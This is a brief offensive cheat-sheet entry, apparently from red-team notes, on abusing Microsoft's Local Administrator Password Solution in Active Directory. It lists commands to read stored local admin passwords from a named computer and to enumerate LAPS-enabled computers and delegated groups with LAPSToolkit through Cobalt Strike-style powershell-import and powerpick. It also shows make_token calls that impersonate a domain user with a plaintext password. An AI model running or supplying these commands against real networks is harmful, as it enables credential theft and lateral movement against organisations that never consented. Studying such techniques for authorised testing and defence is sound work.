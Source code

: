 ### Local Administrator Password Solution
```
PowerShell Get-Command *AdmPwd*
PowerShell Get-AdmPwdPassword -ComputerName Alice_PC | fl

```
```
powershell-import C:\Users\Commando\Desktop\LAPSToolkit.ps1
powerpick Get-LAPSComputers
powershell Find-LAPSDelegatedGroups
make_token MeMe 123456qWE
make_token insomnia.io\MeMe 123456qWE
```
